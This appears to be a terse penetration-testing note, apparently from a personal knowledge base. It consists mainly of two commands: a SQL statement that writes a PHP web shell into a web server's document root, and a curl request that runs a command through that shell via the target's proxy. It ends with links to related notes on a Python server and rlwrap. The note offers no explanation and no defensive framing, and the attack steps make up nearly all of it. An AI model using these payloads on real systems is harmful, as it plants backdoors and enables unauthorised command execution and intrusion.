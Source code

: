 ```
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE 'C:/wamp/www/shelly.php';
```
```
curl "http://127.0.0.1:8080/shelly.php?cmd=whoami" --proxy $TARGET:3128
```
[[Python#Server]]
[[1._rlwrap]]
